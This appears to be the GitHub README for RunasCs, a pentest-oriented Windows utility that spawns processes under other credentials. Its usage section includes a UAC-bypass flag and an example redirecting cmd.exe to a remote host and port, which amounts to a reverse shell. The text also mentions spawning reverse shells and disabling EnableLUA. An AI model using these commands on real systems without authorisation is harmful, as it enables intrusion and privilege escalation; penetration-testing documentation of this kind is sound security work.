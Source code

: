 ### RunasCs

----

*RunasCs* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved (from a pentest perspective) and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, i.e. network cleartext logon 8 (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasCs* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUser()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``


### Requirements

----

.NET Framework >= 2.0


### Usage

----

```console
C:\ProgramData>.\RunasCs_net2.exe --help

RunasCs v1.3 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--create-profile]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and crateProcess functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     command supported by cmd.exe if process_timeout>0
                            commandline for the process if process_timeout=0
Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain.
                            Default: ""
    -f, --function create_process_function
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatically according to your privileges.
                            0 - CreateProcessAsUserA
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
    -l, --logon-type logon_type
                            the logon type for the spawned process.
                            Default: "8"
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this option sets the process timeout to 0.
    -t, --timeout process_timeout
                            the waiting time (in ms) for the created process.
                            This will halt RunasCs until the spawned process
                            ends and sent the output back to the caller.
                            If you set 0 no output will be retrieved and cmd.exe
                            won't be used to spawn the process.
                            Default: "120000"
    -p, --create-profile
                            if this flag is specified RunasCs will force the
                            creation of the user profile on the machine.
                            This will ensure the process will have the
                            environment variables correctly set.
                            NOTE: this will leave some forensics traces
                            behind creating the user profile directory.
                            Compatible only with -f flags:
                                1 - CreateProcessWithTokenW
                                2 - CreateProcessWithLogonW
    -b, --bypass-uac     
                            if this flag is specified RunasCs will try a UAC
                            bypass to spawn a process without token limitation
                            (not filtered).

Examples:
    Run a command as a specific local user
        RunasCs.exe user1 password1 whoami
    Run a command as a specific domain user and interactive logon type (2)
        RunasCs.exe user1 password1 whoami -d domain -l 2
    Run a background/async process as a specific local user,
        RunasCs.exe user1 password1 "%COMSPEC% powershell -enc..." -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.24:4444
    Run a command simulating the /netonly flag of runas.exe
        RunasCs.exe user1 password1 whoami -d domain -l 9
	Run a command as an Administrator bypassing UAC
        RunasCs.exe adm1 password1 "whoami /all" --bypass-uac
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 8 (*NetworkCleartext*). 

**NetworkCleartext** logon type is the one with widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package.

If you set *Interactive* (2) logon type you will face some *UAC* restriction problems.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtered limitation.

By default, the calling process (*RunasCs*) will wait until the end of the execution of the spawned process and will use
``cmd.exe`` to manage *stdout* and *stderr*. If you need to spawn a background or async process, i.e. spawning a reverse shell,
you need to set the parameter ``-t timeout`` to ``0``. In this case the process will be spawned without using ``cmd.exe``
and *RunasCs* won't wait for the end of the execution.

### References

----

* https://decoder.cloud/2018/01/13/potato-and-tokens/
* https://github.com/dahall/Vanara
* https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85)
* https://support.microsoft.com/en-us/help/190351/how-to-spawn-console-processes-with-redirected-standard-handles
* https://support.microsoft.com/en-us/help/327618/security-services-and-the-interactive-desktop-in-windows
* https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/


### Credits

-----

* [@decoder](https://github.com/decoder-it)
* [@qtc-de](https://github.com/qtc-de)
* [@winlogon0](https://twitter.com/winlogon0)